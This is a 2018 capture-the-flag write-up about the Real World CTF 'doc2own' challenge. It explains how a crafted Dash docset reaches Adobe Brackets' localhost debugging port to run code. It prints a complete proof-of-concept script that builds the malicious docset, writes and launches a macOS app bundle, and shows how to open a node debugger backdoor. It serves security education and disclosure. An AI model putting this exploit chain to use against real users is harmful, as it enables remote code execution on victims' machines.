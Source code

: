 ```yaml
---
layout:	post
title:	"Something About #realworldctf doc2own"
date:	2018-08-07
image: /img/2018-08-07-something-about-realworldctf-doc2own/rwctf.webp
---
```


The challenge is to get a shell when the victim opens a Dash docset. Both Dash and Adobe Brackets are up to date. Actually the intended solution **involves no zero day at all**. This writeup from Team 217 [Real World CTF 2018 — doc2own](https://blog.l4ys.tw/2018/07/realworld-ctf-2018-doc2own/) (in Traditional Chinese) is the expected solution.

## The Intended Solution Without Involving 0day

#### From remote debug to shell

After the [VSCode 9333 debugging port issue](http://bluec0re.blogspot.com/2018/03/cve-2018-7160-pwning-nodejs-developers.html) I looked at some other javascript based desktop applications, especially editors and IDE. I came across this same vulnerability in Adobe Brackets: [CEF remote debugging is vulnerable to dns rebinding attack #14149](https://github.com/adobe/brackets/issues/14149)

It's weird to have a debugging port in production but Brackets does it. Unlike Atom or VSCode, Brackets is based on libCEF and custom node.js runtime binding. The debugging protocol for web frontend is the same as Chromium.

In the original report, exploit requires dns rebinding to get the random websocket uuid to start a debug session, then use DOM manipulation (there was a bug so `Runtime.Evaluate` didn't work) to inject malicious javascript to the frontend context. But node.js runtime can not be accessed so you need a V8 engine bug to achieve native code execution. The libCEF is pretty old so all you need is to grab an n-day exploit. No further sandbox. Unfortunately memory corruption is not what I am familiar with.

There are some special bridged objects in the context: `appshell` and `brackets`. In the challenge you don't really need a shell because `brackets` already gives the filesystem access.

Unrestricted file system access almost equals code execution, but it requires a trigger. There are two functions that can be turned to instant command execution.

1. `brackets.app.openURLInDefaultBrowser` does not limit `file:///` url, so point it to an executable like `.cmd` or `.exe` equals `ShellExecute` on Windows. For macOS we can use `.terminal` or `.sh`.
2. The application bundle on macOS is actually a directory with specific structure. Opening such bundle will execute a file. Method `brackets.app.showOSFolder` can trigger this behavior.

```js
function calc() {
  // use brackets.fs to write your own executable
  // makedir, writeFile, chmod are your friends
  if (brackets.app.getUserDocumentsDirectory().indexOf('/') === 0) {
    brackets.app.showOSFolder('/Applications/Calculator.app');
  } else {
      brackets.app.openURLInDefaultBrowser('file:///C:/windows/system32/calc.exe');
  }
// P.S. brackets.getModule is also available. We can even activate a node debugger backdoor
  const NodeConnection = brackets.getModule("utils/NodeConnection");
  const conn = new NodeConnection();
  conn.connect(true);
  conn.domains.base.enableDebugger(); // enable *:5858 as a backdoor, which accepts connection from another computer. Just attach it with VSCode or other debugger to execute node.js code
}
```

The patch killed dns rebinding, but this port is still open. So what if we can access it from somewhere with no Same Origin Policy?

#### The Dash Part

There was no special reason to choose Dash as this part. Dash is popular for developers, and it has a WebView that can make cross site AJAX if the document has `file:///` origin. The WebView in Dash is the same WebKit engine as Safari, **I don't think someone will burn a Safari 0day exploit in the CTF**.

You may think about directly reading flag from `file:///` via AJAX. Actually this bug has been reported for a while, including the symlink variant, as well as a directory traversal in the GCDWebServer.

![](/img/2018-08-07-something-about-realworldctf-doc2own/mail.png)

#### Demo

Looks like both two issues are not so serious, but together they can spawn a remote shell:

* A debugging port that only allows localhost connection
* A web browser without same origin policy

Here's a proof of concept that launches a calculator:

```bash
contents=exploit.docset/Contents
docs=$contents/Resources/Documents

rm -r $contents
mkdir -p $docs

cat > $docs/index.html <<- "EOF"
<script>
async function main() {
  const list = await fetch('http://localhost:9234/json').then(r => r.json());
  const item =  list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return console.error('invalid response');
  const url = `ws://127.0.0.1:9234/devtools/page/${item.id}`;
  console.log('url:' + url);
  exploit(url);
}
function exploit(url) {
  function calc() {
    const fs = window.appshell.fs;
    const mkdir = path => new Promise((resolve, reject) =>
      fs.makedir(path, 0755, err => err => err === 0 ? resolve(true) : reject(err)));
    const writeFile = (path, content) => new Promise((resolve, reject) =>
      fs.writeFile(path, content, 'utf8', false, err => err === 0 ? resolve(true) : reject(err)));
    const chmod = (path, mode) => new Promise((resolve, reject) =>
      fs.chmod(path, mode, err => err === 0 ? resolve(true) : reject(err)));
    const INFO_PLIST = `<?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
      <plist version="1.0">
      <dict>
        <key>CFBundleExecutable</key>
        <string>hello</string>
        <key>CFBundleIconFile</key>
        <string>AppIcon</string>
      </dict>
      </plist>`;
    const EXEC = `#!/bin/sh
      open -a Calculator`;
    const app = '/tmp/test.app/';
    const base = app + 'Contents/'
    return mkdir(base + 'MacOS')
      .then(writeFile(base + 'Info.plist', INFO_PLIST))
      .then(writeFile(base + 'MacOS/hello', EXEC))
      .then(chmod(base + 'MacOS/hello', 0777))
      .then(new Promise((resolve, reject) => {
        brackets.app.showOSFolder(app)
      }));
  }
  const ws = new WebSocket(url);
  ws.onopen = async () => {
    let counter = 13371337;
    const send = (method, params) => new Promise((resolve, reject) => {
      const id = counter++;
      const recv = ({ data }) => {
        const parsed = JSON.parse(data);
        if (parsed.id === id) {
          resolve(parsed.result);
          ws.removeEventListener('message', recv);
        } else {
          console.log('message: ', data);
        }
      };
      ws.addEventListener('message', recv);
      ws.send(JSON.stringify({ id, method, params }));
    });
    const response = await send('Runtime.evaluate', { expression: `(${calc})()` });
    console.log(response.result);
    ws.close();
  }
  ws.onerror = () => console.log('failed to connect');
}
main();
</script>
EOF

cat > $contents/Info.plist <<- "EOF"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
  <key>CFBundleIdentifier</key>
  <string>exploit</string>
  <key>CFBundleName</key>
  <string>Exploit</string>
  <key>DocSetPlatformFamily</key>
  <string>exploit</string>
  <key>dashIndexFilePath</key>
  <string>index.html</string>
  <key>isDashDocset</key>
  <true/>
</dict>
</plist>
EOF

sqlite3 -batch $contents/Resources/docSet.dsidx << "EOF"
CREATE TABLE searchIndex(id INTEGER PRIMARY KEY, name TEXT, type TEXT, path TEXT);
CREATE UNIQUE INDEX anchor ON searchIndex (name, type, path);
INSERT OR IGNORE INTO searchIndex(name, type, path) VALUES ('Exploit', 'Class', 'index.html');
EOF

open exploit.docset

tar czf exp.tar.gz exploit.docset
```

[Demo](https://youtu.be/8--cX0BF3ew)

But during the CTF, it didn't cost [Plaid Parliament of Pwning](https://ctftime.org/team/284), [CyKOR](https://ctftime.org/team/369) and [Eat, Sleep, Pwn, Repeat](https://ctftime.org/team/15712) too much time to find real zero day solutions in Dash itself. After the game, I did a quick disassemble and found some other new bugs that have been confirmed by the developer.

After reporting to [Kapeli](https://medium.com/u/f1aac0988a9), he quickly made a new release, and checked the docset repo to make sure there were no actual attack. Thanks for his response!

> The docsets available by default within Dash (including user contributed ones) have been checked and no evidence of these vulnerabilities being exploited has been found.

To protect end users of Dash, I'll not reveal the unintended bugs now. **Please upgrade to Dash 4.4.0 ASAP.**

